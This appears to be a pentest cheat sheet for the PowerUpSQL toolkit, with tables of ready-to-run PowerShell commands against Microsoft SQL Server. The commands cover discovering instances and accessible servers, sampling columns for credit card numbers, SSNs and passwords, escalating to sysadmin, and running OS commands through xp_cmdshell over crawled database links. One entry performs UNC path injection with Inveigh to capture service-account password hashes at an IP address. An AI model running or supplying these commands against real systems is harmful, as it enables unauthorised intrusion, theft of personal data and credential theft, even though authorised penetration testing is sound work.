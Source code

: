 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain accounts used to run multiple SQL Servers | `Get-SQLInstanceDomain -Verbose | Where-Object {$_.DomainAccount -notlike "*$"} | Group-Object DomainAccount | Select Count, Name | Sort-Object Name -Descending`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|Get a list of domain SQL servers that can be logged into|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`

## Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10–Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLPrivEsc -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

